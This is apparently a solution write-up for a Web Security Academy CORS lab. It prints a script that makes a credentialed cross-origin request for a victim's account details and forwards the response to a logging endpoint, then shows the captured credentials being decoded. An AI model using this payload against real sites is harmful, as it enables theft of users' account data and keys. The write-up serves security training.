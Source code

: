 1. The following script is delivered to the victim:

	```
	<script>
		var req = new XMLHttpRequest();
		req.onload = reqListener;
		req.open('get','https://0a2d009103e823e780db94e900590045.web-security-academy.net/accountDetails',true);
		req.withCredentials = true;
		req.send();

		function reqListener() {
		   location='/log?key='+this.responseText;
		};
	</script>
	```
	**_The script does the following:_**   
		 Create an XMLHttpRequest instance.   
		 Set the event handler that will be called when the response is received.   
		 opening a GET request to the URL to retrieve account details   
		 Sending cookies and HTTP authentication information in the request   
		 Sending the request   
		 Event handler function called when a response is received from the server   
		 forwarding the current page to a log file with the received response text as parameter   

2. After supposedly executing the script on victims machine his credentials get logged:   

	![grafik](https://user-images.githubusercontent.com/62068604/235905598-e0c9da27-2a71-47e4-9d20-2c2bb64555c8.png)

3. Decoding victim's credentials via Burp Decoder:   

	![grafik](https://user-images.githubusercontent.com/62068604/235902546-4feba875-89cd-4415-a944-708bff260b4b.png)
